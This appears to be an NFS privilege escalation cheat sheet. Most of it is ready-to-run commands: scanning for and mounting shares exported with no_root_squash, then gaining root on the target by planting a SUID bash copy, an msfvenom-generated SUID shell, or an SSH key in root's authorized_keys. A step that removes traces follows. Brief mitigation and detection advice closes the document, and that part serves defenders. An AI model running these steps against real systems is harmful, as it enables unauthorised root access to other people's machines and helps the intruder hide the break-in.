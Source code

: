 # **NFS Privilege Escalation Cheat Sheet**

## **1. Identifying Vulnerable NFS Shares**
```bash
# Scan for NFS services
nmap -p 111,2049 <target_IP>

# List available shares
showmount -e <target_IP>
```

### **Key Findings**
```
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
- **`no_root_squash`** → Critical vulnerability (allows root access)
- **`rw`** → Read-write access for all clients

## **2. Exploitation Steps**

### **A. Mounting the Share**
```bash
# Create local mount point
sudo mkdir /mnt/nfs

# Mount with NFSv3 (most compatible)
sudo mount -o rw,vers=3 <target_IP>:/tmp /mnt/nfs
```

### **B. Verify Write Access**
```bash
# Test as normal user
echo "test" > /mnt/nfs/test_user.txt

# Test as root (should work due to no_root_squash)
sudo bash -c 'echo "root_test" > /mnt/nfs/test_root.txt'
```

## **3. Privilege Escalation Methods**

### **Method 1: SUID Binary Upload**
```bash
# On attacker machine (as root)
cp /bin/bash /mnt/nfs/
chmod +xs /mnt/nfs/bash

# On target machine
/tmp/bash -p  # Get root shell
```
*Note: May fail due to library dependencies*

### **Method 2: MSFVenom Payload**
```bash
# Generate SUID shell
msfvenom -p linux/x64/exec CMD="/bin/sh" -f elf > /mnt/nfs/shell
chmod +xs /mnt/nfs/shell

# On target machine
/tmp/shell  # Instant root
```

### **Method 3: SSH Key Planting**
```bash
# Generate key pair
ssh-keygen -f nfs_key

# Add to root's authorized_keys
mkdir -p /mnt/nfs/root/.ssh
cat nfs_key.pub >> /mnt/nfs/root/.ssh/authorized_keys
chmod 700 /mnt/nfs/root/.ssh

# SSH in
ssh -i nfs_key root@<target_IP>
```

## **4. Post-Exploitation**
```bash
# Clean traces
rm /mnt/nfs/{shell,bash,test_*.txt}

# Unmount share
sudo umount /mnt/nfs
```

## **5. Mitigation**
- **Never use `no_root_squash`** in `/etc/exports`
- Restrict shares to specific IPs:  
  `/tmp 192.168.1.100(rw,sync,root_squash)`
- Use `all_squash` for anonymous access:  
  `/tmp *(rw,sync,all_squash)`

## **Detection & Monitoring**
```bash
# Check active NFS mounts
mount | grep nfs

# Monitor NFS access
tail -f /var/log/syslog | grep nfsd
```

## **Reference**
```bash
# Sample vulnerable /etc/exports
/tmp *(rw,sync,no_root_squash,no_subtree_check)  # NEVER USE THIS

# Secure configuration
/tmp 192.168.1.0/24(rw,sync,root_squash,subtree_check)
```

